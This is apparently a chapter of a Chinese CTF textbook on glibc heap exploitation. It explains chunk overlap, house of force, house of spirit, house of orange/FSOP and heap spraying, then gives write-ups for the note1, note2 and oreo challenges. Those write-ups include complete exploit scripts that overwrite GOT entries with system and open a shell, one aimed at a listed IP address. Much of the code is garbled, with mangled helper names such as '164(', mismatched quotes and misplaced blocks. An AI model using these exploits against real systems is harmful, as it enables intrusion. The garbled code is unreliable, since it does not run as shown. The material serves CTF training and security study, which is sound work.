可以看到，释放后ptr2所指向的buff的堆块虽然还在使用，但是已经连同ptr1所指向的buff的堆块一起被释放了，另外堆块2前面的未知堆块部分也被夹在中间作为新堆块的一部分，所以此时如果申请大小合适的堆块，就能够与ptr2所在的区域及未知堆块部分发生重叠。

在此基础上，可以结合最基本的堆利用方法、unlink方法、fastbin利用方法来对堆块进行利用。

1）如果ptr2所指向的堆块或者其上的未知堆块部分存在指针变量，则采用最基本的堆利用方法，直接构造指针数据即可。

2）如果未知堆块中存在fastbin中的堆块，且其中想改写的目的地址符合fastbin利用的条件，则可以采用fastbin的利用方法。

3）直接申请新堆块，在其中构造unlink利用的条件，并且通过释放ptr2来进行释放操作，以触发unlink。

4）其他更多的利用方法可以自行试探。

测试示例（根据图13-14所示进行编码，未知堆块部分在此设为不存在）代码如下：

```c
#include <stdio.h>
int main()

{
    char *ptr[4];
    int size0, size1, size2;

    size0 = size1 = size2 = 0x50;
    int i;
    for (i = 0; i < 4; i++)
    {
        ptr[i] =malloc(0x40);
        printf(" ptr[%d] = %p\n", i, ptr[i]);
    }
    int NMP = *(long long *) (ptr[0]+0x48) & 0x7;

    //modify chunk2's size area
    *(long long *) (ptr[0]+0x48) = (size1 + size2) | NMP;
    free(ptr[1]);

    char *new_ptr;
    new_ptr =malloc(0x40+0x50);

    printf("----------\n");

    for (i = 0; i < 4; i++)
    {
        printf(" ptr[%d] = %p\n", i, ptr[i]);
    }
    printf("new_ptr = %p\n", new_ptr);
}
```

测试结果如图13-15所示。

```text
ptr[0] = 0x13d3010
ptr[1] = 0x13d3060
ptr[2] = 0x13d30b0
ptr[3] = 0x13d3100

ptr[0] = 0x13d3010
ptr[1] = 0x13d3060
ptr[2] = 0x13d30b0
ptr[3] = 0x13d3100
new_ptr = 0x13d3060
```

<div style="text-align: center;">图13-15 测试结果</div>


由图13-15所示可以看到，申请的new_ptr和ptr[2]相同，然而new_ptr申请的大小为0x40+0x50，刚好为ptr[1]数据块大小和ptr[2]所指向的堆块的大小之和，由此可见，此时堆块已经进行了合并，而且ptr[2]为残留堆块，虽然没有释放，但是与new_ptr发生了重叠。

gdb中的调试过程如下。

在free函数调用处下断点，如图13-16所示。

free调用后，查看内存，如图13-17所示。

可以看到，堆块2和新堆块发生了重叠。new_ptr新申请的堆块就是该新堆块，在此不再展示。

更多复杂的forgotten chunk的情况可以参考前面给出的资料，其中对大部分情况进行了详细描述，这对于提高利用技巧大有裨益，读者可以自行参考，在此不再赘述。

这里主要介绍常用的利用方式，具体如下。

1）堆扩展（extend chunk），分为往后扩展和往前合并，具体如下。

a）往后扩展：

- 条件：增大chunk的size（或者仅修改P位），使其大小覆盖到后续chunk，满足后续chunk不合并（伪造后续chunk的size）或者能够正常unlink（处于释放状态）

- 效果：可实现后续相邻堆块重叠，便于后续利用。

{ width="100%" }


<div style="text-align: center;">图13-16 free之前堆块布局</div>

{ width="100%" }


<div style="text-align: center;">图13-17 free之后堆块布局</div>


b）往前合并：

- 条件：将chunk的P位清0，同时修改pre_ssize，使其大小刚好能够包含前一个处于free状态的chunk（或者伪造的chunk），并且释放时能够正常前向unlink（处于释放状态）。

- 效果：可实现前面相邻堆块重叠，便于后续利用。

2）堆收缩（shrink chunk）：

- 条件：可修改本chunk的size，一般用于制造特定大小的chunk或者满足合适的条件。

- 效果：配合其他利用方式进行。

利用实例可参考如下题目。

1）Oreo（2014-PCTF-PWN-400）。

2）Shaxian（2015-RCTF-PWN-400）。

!!! warning "易错点"
    ==forgotten chunk 制造重叠时，改写的是「堆块1的 size 域」并将其写成 size1+size2==，且须保持 NMP 位不变——因为检查按新 size 识别、后续 pre_size 被当作数据区，才能让释放「通过检查」并吞并相邻块。
???+ tip "本节要点"
    1. forgotten chunk = 利用申请/释放中「被遗忘」的部分，通过改写 size 域制造重叠堆块；
    2. 核心：把堆块1的 size 改写成 size1+size2（保持 NMP 位），释放堆块1即可把堆块2一并吞并形成重叠；
    3. 常见变体：堆扩展（往后覆盖 / 往前 P 位清 0 + pre_size），堆收缩（改 size 制造特定大小）；
    4. 重叠后可进一步结合类型混淆 / unlink / fastbin attack 三种手段利用。
#### 13.3.5 house of force

这种利用方法主要是指堆块溢出覆盖top chunk中size域的情况，通过将其改写成一个非常大的数据，从而可以申请非常大的空间，使得新top chunk的头部落到想要修改的位置。在下次申请时，就能够得到目标内存，从而实现泄露和改写。

在执行malloc的时候，一般是直接根据申请的空间大小与top chunk的大小进行比较，由于都是无符号整数，所以会将top chunk的值改得特别大（如0xFFFFf**等），从而保证绝大多数在申请时都能被满足。

house of force利用示意如图13-18所示。

{ width="100%" }


<div style="text-align: center;">图13-18 house of force利用示意图</div>

通常情况下，为了简便，利用步骤一般如下。

1）首先应该泄露出堆地址。

2）利用堆溢出，将top chunk的size域修改为很大的整数。

3）申请大块内存（内存大小可通过堆地址与目标地址的距离来计算），使得top chunk的头部落在目标地址范围之内。

4）再次申请内存，那么新申请的内存即为目标地址，通常情况下（未开启FullRelro），一般是将目标地址设为got表中的地址，其他情况则需要根据实际问题具体分析。

利用方式具体如下。

• 条件：修改top chunk的size，使其大小能够包含libc，然后申请一个大堆块，使得top chunk落到libc中，从而达到修改libc中数据（如malloc_hook或者free_hook等）的目的。

- 效果：修改libc数据。

这种情况比较简单，利用起来也相对方便，具体可参见如下赛题。

1）Ruin（2015-BCTF-PWN-200）。

2）Tinypad（2015–SECCON–PWN-300）。

延伸版的house of force可参见Noend（2018 suctf）。

#### 13.3.6 house of spirit

这种利用方法主要是指在堆上构造fastbin结构，然后改写前一堆块的后续指针，将下一次申请的位置改到栈上，从而进行利用，如图13-19所示。

{ width="100%" }


<div style="text-align: center;">图13-19 house of spirit利用示意图</div>


通常，在栈上布置的堆块需要满足fastbin的条件，如图13-19中栈空间的阴影部分，包括size域中的大小必须与fastbin的大小保持一致。

致，另外，其后续块的size域中的p标志位必须为1、其实这两点很容易就能满足，但是需要泄露栈地址。

具体见真题解析：

https://gbmaster.wordpress.com/2015/07/21/x86-exploitation-101-house-of-spirit-friendly-stack-overflow/

利用方式具体如下。

1）条件：满足fastbin attack的条件即可。

2）效果：修改栈数据，可以配合使用rop等利用方法。

???+ tip "本节要点"
    1. house of force：溢出覆盖 top chunk 的 size 为极大值，按「堆地址与目标地址距离」申请大块，让新 top chunk 头落到目标位置，再申请即可拿到目标内存（常指 got 表）；
    2. house of spirit：在栈上伪造一个满足 fastbin 条件的 fake chunk（size 与 fastbin 一致、后续块 P 位为 1），改写指针把下次分配引到栈上，配合 rop 利用；
    3. 两者都需要先泄露地址（house of force 需堆地址、house of spirit 需栈地址）。
#### 13.3.7 house of orange

house of orange的名字来源于2016年hitcon CTF中的题目house of orange，该题的官方解法由4ngelboy给出，其使用Unsorted bin Attack修改IO_list_all来获取shell。理解该利用的主要思路需要先理解两个概念——Unsorted bin Attack和FSOP。

### 1. Unsorted bin Attack

Unsorted bin Attack主要是针对unsorted bin实现的利用方法，在glibc中分配unsorted bin的chunk的时候，有如下一段代码：

```c
/* remove from unsorted list */
unsorted_chunks (av) -> bk = bck;
bck -> fd = unsorted_chunks (av);
```

分配时，将chunk从unsorted bin链表中移除，移除时对bck的fd进行赋值，这里没有做fd和bk的检查，所以如果能够控制bk，则将其指向目标地址，这样可以实现改写任意地址。

需要注意的是：

1）当修改的unsorted bin chunk大小刚好等于申请的chunk大小时，能够正常申请成功，可实现任意地址写。

2）当修改的unsorted bin chunk大小不等于申请的chunk大小时，能够实现任意地址写，此时会触发malloc error，如果直接改写IO_list_all并布置好数据，就能够直接获取shell。

3）需要在0x60大小的small bin chunk的第一个堆块中布置好file struct数据。

对于unsorted bin的构造可以很灵活，只需要在一处设置好bk的值即可。

## 条件：

条件：

```c
*bk = (target_addr - 0x10)
```

效果：

```c
*target_addr = (0x60 small chunk header)
```

### 2. FSOP

FSOP（File Stream Oriented Programming）主要是对_IO_FILE 结构体链表进行的利用，其中_IO_FILE的结构体代码如下：

```c
struct _IO_FILE {
int _flags; /* High-order word is _IO_MAGIC; rest is flags. */
}

#define IO_file_flags _flags
/* The following pointers correspond to the C++ streambuf protocol. */
/* Note: Tk uses the IO_read_ptr and IO_read_end fields directly. */
char* IO_read_ptr; /* Current read pointer */
char* IO_read_end; /* End of get area. */
char* IO_read_base; /* Start of putback+get area. */
char* IO_write_base; /* Start of put area. */
char* IO_write_ptr; /* Current put pointer. */
char* IO_write_end; /* End of put area. */
char* IO_buf_base; /* Start of reserve area. */
char* IO_buf_end; /* End of reserve area. */
/* The following fields are used to support backing up and undo. */
char * IO_save_base; /* Pointer to start of non-current get area. */
char * IO_backup_base; /* Pointer to first valid character of backup area */
char * IO_save_end; /* Pointer to end of non-current get area. */
struct IO_marker *markers;
struct IO_FILE *chain;
int _fileno;
int _blksize;
_IO_off_t old_offset; /* This used to be offset but it's too small. */
#define _HAVE_COLUMN /* temporary */
/* 1+column number of pbase(); 0 is unknown. */
unsigned short_cur_column;
signed char vtable_offset;
char _shortbuf[1];
/* char* _save_gptr; char* _save_egptr; */
_IO_lock_t *lock;
#ifdef _IO_USE_OLD_IO_FILE
};
struct _IO_FILE_plus
{
_IO_FILE_file; // 就是一个libio.h中的_IO_FILE 结构体
```

I0_list_all 链表如图13-20所示。

{ width="100%" }


<div style="text-align: center;">图13-20 IO_list_all链表</div>


针对FSOP的利用，主要是因为堆破坏时，libc会通过调用__libc_message函数打印错误信息，最终调用_IO_flush_all_lockp刷新_IO_list_all（文件链表头部）链表中的文件流，即调用其中的_IO_overflow函数。在libc中，函数的反编译结构如图13-21所示。

读者可参阅文章（https://dhavalkapil.com/blogs/FILE-Structure-Exploitation/）了解文件结构体的利用方法，其中提供了如下pack方式：

```python
# A handy function to craft FILE structures
def pack_file(_flags = 0,
                        _IO_read_ptr = 0,
                        _IO_read_end = 0,
                        _IO_read_base = 0,
                        _IO_write_base = 0,
                        _IO_write_ptr = 0,
                        _IO_write_end = 0,
                        _IO_buf_base = 0,
                        _IO_buf_end = 0,
                        _IO_save_base = 0,
                        _IO_backup_base = 0,
                        _IO_save_end = 0,
                        _IO_marker = 0,
                        _IO_chain = 0,
                        _fileno = 0,
                        _lock = 0):
                struct = p32(_flags) + \
                p32(0) + \
                p64(_IO_read_ptr) + \
                p64(_IO_read_end) + \
                p64(_IO_read_base) + \
                p64(_IO_write_base) + \
                p64(_IO_write_ptr) + \
                p64(_IO_write_end) + \
                p64(_IO_buf_base) + \
                p64(_IO_buf_end) + \
                p64(_IO_save_base) + \
                p64(_IO_backup_base) + \
                p64(_IO_save_end) + \
                p64(_IO_marker) + \
                p64(_IO_chain) + \
                p32(_fileno)

struct = struct.ljust(0x88, "\x00")
struct += p64(_lock)
struct = struct.ljust(0xd8, "\x00")

return struct
fake_vtable_addr = io_str_overflow_ptr_addr - 2*8

if ( a1 )
{
    if (!(file_struct & 0x8000) )
        break;
}

NEL_23:
if (*(file_struct + 0xC0) <= 0 )
{
    if (*(file_struct + 0x28) <= *(file_struct + 0x20) )
        goto LABEL_27;
}

else
{
    a3 = *(file_struct + 0xA0);
    if (*(a3 + 0x20) <= *(a3 + 0x18) )
        goto LABEL_27;
}

if ( *(file_struct + 0xD8) + 0x18LL) (file_struct, 0xFFFFFFFFFLL, a3, a4, a5, a6, v16, v17) == -1 )
```

<div style="text-align: center;">图13-21 libc中函数的反编译结构</div>


利用时，在内存中进行如下布局即可：

```python
# Craft file struct
file_struct = pack_file()
# vtable pointer
file_struct += p64(fake_vtable_addr)
```

在 `fake_vtable_addr+0x18` 地址处布置好 `system` 或者 `one_gadget` 地址，其中，`system` 参数放置在 `pack_file` 的第一个参数中，一般可取值

为p64（u64（"sh;sh;\\x00\\x00"）|0x8000）。

需要注意的是，在glibc 2.24版本之后，文件结构的虚表受到了限制，可以借助IO_str_jumps进行转换，pack的代码如下：

```python
io_str_overflow_ptr_addr = libc + offset_io_str_overflow
fake_vtable_addr = io_str_overflow_ptr_addr - 0x38
rip = system_addr
rdi = binsh_addr

file_struct = pack_file(
    _IO_buf_base = 0,
    _IO_buf_end = (rdi-100)/2,
    _IO_write_ptr = (rdi-100)/2,
    _IO_write_base = 0,
    _lock = heap + 0x2d0 + 0x80)

file_struct += p64(fake_vtable_addr)
file_struct += p64(rip)
file_struct = file_struct.ljust(0x100, "\x00")
```

需要特别注意的是，在glibc 2.28版本之后，文件结构的虚表受到了更严格的限制，像之前的IO_str_jumps等可以利用的虚表函数无法再利用，需要寻找其他的利用方法（已被证明是可以利用的）。

更多内容可参见真题解析。

house of orange (2016-hitcon)。

自2017年以后，这种利用技巧已被广泛应用于例题之中。

此外，缓冲区以及fileno的利用因为进程中包含了系统默认的三个文件流stdin、stdout、stderr，因此这种方式可以不需要在进程中存在文件操作，通过scanf、printf一样可以进行利用。在glibc中，open、write、read、close等函数针对的是IO_FILE句柄，而printf、scanf、open、fread、fwrite、fclose等函数针对的是_IO_FILE_plus句柄，其中_IO_FILE_plus是_IO_FILE的扩展，在其基础上增加了一组跳转表，所以两者的基本结构是很相似的。在此基础上，针对文件指针的攻击可参考AngelBoy的《Play with FILE Structure-Yet Another Binary Exploit Technique》（https://www.slideshare.net/AngelBoy1/play-with-file-structure-yet-another-binary-exploit-technique），其中介绍了如何利用文件结构体的内存指针实现任意地址泄露和改写，读者可以自行扩展（利用虚表函数还可以实现控制流的劫持）。

对于FSOP的利用，除了house of orange，还可以直接对FILE结构体进行利用，为了加深理解，下面介绍通过fwrite和fread实现任意地址读写。

1）fwrite实现任意地址读写。

a）对于任意地址读，通过_IO_new_file_write，我们可以构造f->fileno=1使之成为stdout，同时还需要满足一定的条件，进而可以通过write将数据打印出来。具体代码如下：

```c
_IO_ssize_t
_IO_new_file_write ( _IO_FILE *f, const void *data,
_IO_ssize_t n)
{
_IO_ssize_t to_do = n;
while (to_do > 0)
{
_IO_ssize_t count = (__builtin_expect (f->_flags2)
&
_IO_FLAGS2_NOTCANCEL, 0)
? __write_nocancel (f->_fileno, data, to_do)

: __write (f->_fileno, data, to_do)); // 将数据data写入了f->_fileno中
if (count < 0)
{
f->_flags |= _IO_ERR_SEEN;
break;
}
to_do == count;
data = (void *) ((char *) data + count);
}
n -= to_do;
if (f->_offset >= 0)
f->_offset += n;
return n;
}
```

构造条件具体如下。

- _fileno为stdout。
- _flag&=~_IO_NO_WRITES。
- _FLAG|=_IO_CURRENTLY_PUTTING。
- write_base&write_ptr为打印目标地址。
- read_end为write_base。

b）对于固定地址任意地址写，_IO_new_file_xsputn会将data中的数据写入f->_IO_write_ptr，示例代码如下：

```c
else if (f->_IO_write_end > f->_IO_write_ptr)
    count = f->_IO_write_end - f->_IO_write_ptr; /*
    Space available. */

/* Then fill the buffer. */
if (count > 0)
{
    if (count > to_do)
        count = to_do;
    f->_IO_write_ptr = _mempcpy (f->_IO_write_ptr, s, count);
    s += count;
    to_do -= count;
}
```

利用条件如下：write_end-write_ptr为要写入的数据长度。

2）fread实现任意地址读写。

对于任意地址写_IO_file_read，我们可以构造fp->fileno=0即

stdin，从而将输入的值写入buf。示例代码如下：

```c
_IO_ssize_t
_IO_file_read ( _IO_FILE *fp, void *buf, _IO_ssize_t size)
{

return (_builtin_expect (fp->_flags2 &
_IO_FLAGS2_NOTCANCEL, 0)
? __read_nocancel (fp->_fileno, buf, size)
: __read (fp->_fileno, buf, size));
}
```

利用条件具体如下。

- _flag&=~_IO_NO_READS
- read_ptr&read_end为NULL。
- buf_base为目标地址，buf_end为buf_base+[读入数据长度+1]。

3）stdout.

修改_IO_read_base和_IO_read_end，或者修改_IO_write_base和_IO_write_end时，会分别往前修改base或者往后修改end，使其缓冲区间包含libc或者其他内容，可以以脏数据的形式进行信息的泄露，具体真题可参考：HITCON 2018 babytache。

更多往年的经典例题：

- WCTF 2017 wannaheap.
- Tokyo Western CTF 2017 Parrot.
- WHCTF 2017 stackoverflow.
- Hack lu 2018 heap hell 2 (glibc 2.28).

???+ tip "本节要点"
    1. house of orange = Unsorted bin Attack + FSOP：Unsorted bin Attack 无 fd/bk 校验，控制 bk 即可任意地址写；
    2. FSOP 原理：堆破坏触发 __libc_message → _IO_flush_all_lockp，刷新 _IO_list_all 并调用 _IO_overflow，配合伪造 FILE 结构体劫持控制流；
    3. glibc 2.24 后虚表受限、可借 IO_str_jumps 转换；2.28 后连 IO_str_jumps 也无法利用，需另寻他法；
    4. 直接利用 FILE 结构体：fwrite/fread 通过伪造 fileno、读写指针实现任意地址读写，stdout 可做脏数据泄露。
#### 13.3.8 堆喷射

堆喷射（Heap Spray）主要是指，在堆块中布置好大量重复性的数据，便于目的地址索引到堆上的数据。堆喷射相对于栈喷射来说较为麻烦，CTF赛题中很少出现堆喷射型题目，真实漏洞中利用较多，在此仅做简单介绍。

通常，简单的堆喷射可以类比于栈喷射，只是在CTF题中，堆喷射中有专门针对随机申请隔离堆的保护机制。堆喷射可使随机申请的堆大小与所使用的堆大小相同，如果存在UAF漏洞，则能够产生利用。

堆喷射实例请参考game（2017-hctf-final），在反序列化漏洞利用时，需要通过堆喷射来实现利用的稳定性。

堆喷射相关的CTF赛题出现概率较小，在pwnable.kr网站上有一道关于lokihard对浏览器利用的题，对于理解堆喷射有较大的帮助，读者可以自行练习扩展。

#### 13.3.9 更多堆利用技巧

这里主要介绍下堆地址碰撞。对于x86程序来说，堆地址空间通常是有限的，虽然提供的长度有32位，但是一般来说，堆会按页对齐，所以后12位是不变的。另外，堆的大致空间范围也有限，所以通常只有十几位在变。在本地，如果无法泄露出堆地址，则可以将通过调试时得到的堆地址视为已知的堆地址来进行利用，然后通过多次循环进行碰撞，如果程序交互时间较短的话，那么这种碰撞方法将会很有效。

其他技巧可以具体参考：

https://github.com/shellphish/how2heap.

??? note "什么是堆地址碰撞？"
    x86 下堆按页对齐、后 12 位不变，堆空间范围有限、通常只有十几位变化。本地无法泄露堆地址时，可把调试得到的堆地址当作已知值，通过多次循环碰撞命中，交互时间越短越有效。
???+ tip "本节要点"
    1. 堆喷射 = 布置大量重复数据便于索引，多用于真实漏洞与反序列化稳定性，CTF 中较少见；
    2. 堆地址碰撞依赖「页对齐后 12 位不变 + 空间范围有限」，本地可通过多次循环碰撞命中真实堆地址；
    3. 更多堆利用技巧可参考 how2heap 项目。
### 13.4 真题解析

### 1. {ZCTF-2015} note1 (PWN200)

这道题比较简单，是一个菜单式的交互程序，分析程序的结构体，可以得到图13-22所示的结构体。

```text
00000000 struct_note_info struc ; (sizeof=0x170)
00000000 pre dq ? ; offset
00000008 next dq ? ; offset
00000010 title db 64 dup(?)
00000050 type db 32 dup(?)
00000070 content db 256 dup(?)
00000170 struct_note_info ends
```

<div style="text-align: center;">图13-22 note1结构体</div>


由图13-22所示可以得知见，content的长度为256字节，而在edit的时候，能够读入512字节，从而发生缓冲区覆盖，如图13-23所示。

```c
for (i = note_head_602080; i && strcmp(buff, i->title); i = i->next);
if (i)
{
    puts("Enter the new content");
    read_buff_400890(i->content, 512, 10);
    puts("Modify success");
}
else
{
    puts("Not find the note");
}
```

<div style="text-align: center;">图13-23 note1缓冲区溢出关键点代码</div>

结构体中有指针，泄露和利用都比较容易，利用代码如下：

```python
from zio import *
from pwn import *
# target = "./note1"
target = ("115.28.27.103", 9001)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def new_note(io, title_t, type_t, content_t):
    io.read_until("option--->>\\n")
    io.writeline("1")
    io.read_until("title:\n")
    io.writeline(title_t)
    io.read_until("type:\n")
    io.writeline(type_t)
    io.read_until("content:\n")
    io.writeline(content_t)

def show_note(io):
    io.read_until("option--->>\\n")
    io.writeline("2")

def edit_note(io, title_t, content_t):
    io.read_until("option--->>\\n")
    io.writeline("3")
    io.read_until("title:\n")
    io.writeline(title_t)
    io.read_until("content:\n")
    io.writeline(content_t)

def pwn(io):
    new_note(io, 'aaa', 'aaa', 'aaa')
    new_note(io, 'bbb', 'bbb', 'bbb')
    new_note(io, 'ccc', 'ccc', 'ccc')
    show_note(io)

atoi_got = 0x0000000000602068 - 0x80

content='a' * 256 + 164(0x01) + 164(0x01) + 164(0x01) + 164(atoi_got) + "bbb"
io.gdb_hint()
edit_note(io, 'aaa', content)

show_note(io)
io.read_until("title=, type=, content="
data = io.read_until("\n") [:-1]
print [c for c in data]
data = data.ljust(8, "\x00')
malloc_addr = 164(data)
print "malloc_addr:", hex(malloc_addr)
elf_info = ELF("./libc-2.19.so")
malloc_offset = elf_info.symbols["malloc"]
system_offset = elf_info.symbols["system"]
libc_base =malloc_addr -malloc_offset
system_addr =libc_base + system_offset
content = "a" * 16 + 164(system_addr)
print "system_addr:", hex(system_addr)
edit_note(io, "", content)
io.read_until("option--->\n")
io.writeline("/bin/sh")
io.interact()

io = get_io(target)
pwn(io)
```

### 2. {ZCTF-2015} note2 (PWN400)

这道题也是菜单式的，主要问题在于执行edit的时候，append可以越界，如图13-24所示。

```c
if ( choice == 1 || choice == 2 )
{
    if ( choice == 1 )
        dest[0] = 0;
    else
        strcpy(dest, ptr);
    v0 = (char *)malloc(160uLL);
    v8 = v0;
    *(_QWORD *)v0 = 'oCweNehT';
    *(_QWORD *)v0 + 1 = 'stnetn';
    printf(v8);
    get_buff_4009BD(v8 + 15, 144LL, 10);
    filter_400B10(v8 + 15);
    v1 = v8;
    v1[size - strlen(dest) + 14] = 0;
    strncat(dest, v8 + 15, 0xFFFFFFFFFFFFFFFFFFFL);
    strcpy(ptr, dest);
    free(v8);
    puts("Edit note success");
}
```

<div style="text-align: center;">图13-24 note2堆溢出溢出点关键代码</div>


如果size开始为0，那么size - strlen（dest）+14≤14了，所以最后执行strncat的时候，可以无限附加并覆盖下一个堆块，由于每个堆块的大小都可以自己设置，所以这里采用fastbin（堆块大小为0x20~0x80）的方式。由于可以覆盖后面的堆块，所以可以在name中伪装为假堆块，然后对其进行释放，这样再次申请的时候，就可以得到该地址，从而改写全局指针，如图13-25所示。

```text
.bss:00000000006020D9 align 20h
.bss:00000000006020E0 name_6020E0 db 40h dup(?)
.bss:0000000000602120 ; char *ptr_manage_602120[]
.bss:0000000000602120 ptr_manage_602120 dq ?
.bss:0000000000602120 align 20h
.bss:0000000000602140 ; int64 size_manage_602140[]
.bss:0000000000602140 size_manage_602140 dq ?
.bss:0000000000602140
```

<div style="text-align: center;">图13-25 note2全局变量指针</div>


最终利用代码如下：

```python
from zio import *
from pwn import *
#ip = 1.192.225.129
#target = "./note2"
target = ("115.28.27.103", 9002)

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    return io

def new_note(io, length_t, content_t):
    io.read_until("option--->\n")
    io.writeline("1")
    io.read_until("content:(less than 128)\n")
    io.writeline(str(length_t))
    io.read_until("content:\n")
    io.writeline(content_t)

def show_note(io, id_t):
    io.read_until("option--->\n")
    io.writeline("2")
    io.read_until("id of the note:\n")
    io.writeline(str(id_t))

def delete_note(io, id_t):
    io.read_until("option--->\n")
    io.writeline("2")
    io.read_until("id of the note:\n")
    io.writeline(str(id_t))

def edit_note(io, id_t, type_t, content_t):
    io.read_until("option--->\n")
    io.writeline("3")
    io.read_until("id of the note:\n")
    io.writeline(str(id_t))

io.read_until("[1.overwrite/2.append]\n io.writeline(str(type_t))
io.read_until("Contents:")
io.writeline(content_t)

def pwn(io):
    name_addr = 0x6020E0
    address_addr = 0x602180

    address = 'aaa'

    name = 164(0x20) + 164(0x21)
    name = name.ljust(0x20, 'a')
    name += 164(0x20) + 164(0x21)
    name += 164(0x0)

    io.read_until("Input your name:\n")
    io.writeline(name)
    io.read_until("Input your address:\n")
    io.writeline(address)
    new_note(io, 0, '')
    new_note(io, 0x80, '')

    atoi_got = 0x0000000000602088

    manage_addr = 0x602120

    payload = 'a' * 0x10
    for i in range(7):
        edit_note(io, 0, 2, payload)

    payload = 'a' * 0xf
    edit_note(io, 0, 2, payload)
    payload = 'a' + 164(name_addr + 0x10)
    edit_note(io, 0, 2, payload)

    io.gdb_hint()
    new_note(io, 0, '')
    payload = 'a' * 0x10
    for i in range(2):
        edit_note(io, 2, 2, payload)

    payload = 'a' * 0xf
    edit_note(io, 2, 2, payload)
    payload = 'a' + 164(atoi_got)

edit_note(io, 2, 2, payload)

show_note(io, 0)
io.read_until('Content is')
data = io.read_until("\\n");[-1]
print [c for c in data]

data = data.ljust(8, "\x00')

aoti_addr = 164(data)
print "aoti_addr:", hex(aoti_addr)

elf_info = ELF("./libc-2.19.so")
#elf_info = ELF("./libc.so.6")
atoi_offset = elf_info.symbols["atoi"]
system_offset = elf_info.symbols["system"]

libc_base = aoti_addr - atoi_offset
system_addr =libc_base + system_offset

content = 164(system_addr)

print "system_addr:", hex(system_addr)
edit_note(io, 0, 1, content)
io.read_until("option--->>\\n")
io.writeline("/bin/sh")
io.interact()

io = get_io(target)
pwn(io)
```

### 3. {hack.lu-2014} oreo(PWN400)

## （1） 题目说明

这道题的逻辑还是比较简单的，简单来说其就是一个订单系统，不过所订的东西是rifle，从操作方式来看，这就是最基本的菜单题，完成的是添加购物单和提交购物单的需求。

## （2） 结构说明

订单结构体如图13-26所示。

```text
rifle_node_struc struc ; (sizeof=0x38)
description db 25 dup(?)
name db 27 dup(?)
next dd ? ; offset
rifle_node_struc ends
```

<div style="text-align: center;">图13-26 oreo结构体</div>


## （3） 漏洞位置

在添加订单时，没有限制好name和description的长度，都是56，从而导致溢出覆盖，如图13-27所示。

根据杨坤博士的PPT——《掘金CTF》来进行理解，申请56字节的堆空间，加上pre_size和size刚好是64字节，属于fastbin，是一个单链表结构，如图13-28所示。

```c
canary = *MK_FP(_GS_, 20);
tmp_ptr = head_ptr_804A288;
head_ptr_804A288 = (rifle_node_struc *)malloc(56u);
if (head_ptr_804A288)
{
    head_ptr_804A288->next = tmp_ptr;
    printf("Rifle name:");
    fgets(head_ptr_804A288->name, 56, stdin);
    set_end_char_80485EC(head_ptr_804A288->name);
    printf("Rifle description:");
    fgets(head_ptr_804A288->description, 56, stdin);
    set_end_char_80485EC(head_ptr_804A288->description);
    ++add_count_804A24;
}
```

<div style="text-align: center;">图13-27 溢出关键点反编译代码</div>


{ width="100%" }


<div style="text-align: center;">图13-28 fastbin链表</div>


因此只要布置好溢出的数据，就可以控制后续分配的堆块。

注意fastbin中的size域必须与其对应的bin保持一致，否则申请会报错。

根据上述要求，直接覆盖got表不太现实，因为size域要设置成0x41比较难实现，所以考虑提供一个留言的功能，其中留言的指针和buff都是全局变量，同时并设置message=&message_buff[128]。想清楚这一点，本题的考点就很明显了。而且这个指针的前两个int域刚好

就是提交的数量和预订的数量，只要设置好数量，这个地址就可以用来作为fastbin中的fake node，如图13-29所示。

{ width="100%" }


<div style="text-align: center;">图13-29 fakenode的选址</div>


## （4） 信息泄露

在覆盖之前要先泄露地址，可以控制订单表的next指针来控制信息的泄露。这里通过布置好name中的数据，用scanf got处的值覆盖next指针的内容，构成下一个订单node，而且这里scanf got的next指针处的值是全零的，刚好能够作为链表结束的标志。

## （5） 利用过程

由于很多打印都没有\n，所以信息不会马上返回，但是在几个关键的地方还是有\n的，所以对于泄露信息和覆盖并无影响。

先申请0x41-count_left个订单（malloc），然后提交（释放），制造好连续的fast bin，并且使message前面的size域先做好准备（后面还要申请几个节点，所以这里要减掉count_left）。

接着申请一个节点，利用name溢出布置好next指针，以便于泄露scanf的真实地址。再通过Show rifle功能打印两个节点（一个真实的节点，一个虚假的节点）。

然后申请一个节点，利用name溢出，将next设置为0x0，同时布置好连续的后续堆块，因为后面申请的就是与该节点连着的堆块了，将后面堆块的fd域设置为message指针-0x8字节的位置，这时候message指针的位置刚好是rifle结构体的name域。程序结构与堆块结构的混淆利用如图13-30所示。

{ width="100%" }


<div style="text-align: center;">图13-30 程序结构与堆块结构的混淆利用</div>


再次申请一个节点，此时申请的节点是正常的，同时fast bin中的头结点会被设置成message-0x8的位置。

第四次申请节点时，malloc分配出来的值就是message-0x8，此时message指针就是name域，将name设置为scanf got的值。

留言，就是写入message指针中的地址，前面已经将这个指针改为scanf got，所以这里直接发送system real addr就可以将scanf覆盖成system了。

最后发送/bin/sh;\n，会调用scanf进行转换，相当于调用了 system（"/bin/sh;\n"），最终拿到shell。

具体代码如下：

```python
from zio import *
from pwn import *
target = ".0reo"
elf_path = ".0reo"

def get_io(target):
    r_m = COLORED(RAW, "green")
    w_m = COLORED(RAW, "blue")
    io = zio(target, timeout = 9999, print_read = r_m, print_write = w_m)
    # io = process(target, timeout = 9999, shell = True)
    return io

def get_elf_info(elf_path):
    return ELF(elf_path)

def add_new_rifle(io, name, description):
    # print io.read_until(banner)
    io.write("1\n")
    # io.read_until("Rifle name: ")
    io.write(name + "\n")
    # io.read_until("Rifle description: ")
    io.write(description + "\n")

def show_rifle(io):
    #print io.read_until(banner)
    io.write("2\n")

def order_rifle(io):
    #io.read_until(banner)
    io.write("3\n")

def leave_message(io, message):
    #io.read_until(banner)
    io.write("4\n")
    #io.read_until("Enter any notice you'd like to submit with your order:")
    io.write(message + "\n")

def show_cur_stats(io):
    #io.read_until(banner)
    io.write("5\n")

def pwn(io):
    elf_info = get_elf_info(elf_path)
    print io.read_until("6. Exit!\\n")
    scanf_got = 0x0804a258
    func_use_got = scanf_got
    name = "pxx"
    description = "nihao"
    count_left = 3
    for i in range(0x41 - count_left): #set add_count_size = 0x41
        add_new_rifle(io, name, description) #node1

    order_rifle(io) #delete all node
    next_ptr = func_use_got
    name = "a" * 27 + 132(next_ptr) #leak info
    description = "description"
    print len(description)
    #io.gdb_hint()

add_new_rifle(io, name, description) #node1 overwrite node2

show_rifle(io)
io.read_until("Description: ")
io.read_until("Description: ")
data = io.read(4)
print hex(132(data))

